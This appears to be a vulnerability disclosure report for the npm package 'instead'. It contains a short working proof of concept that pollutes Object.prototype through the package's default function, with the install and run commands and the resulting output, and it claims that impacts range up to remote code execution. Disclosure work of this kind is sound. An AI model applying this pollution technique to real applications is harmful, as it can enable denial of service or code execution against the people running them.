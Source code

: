 # Description

`instead` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const instead = require('instead')

console.log(`Before: ${{}.polluted}`)
instead.default(constructor.prototype, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i instead # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
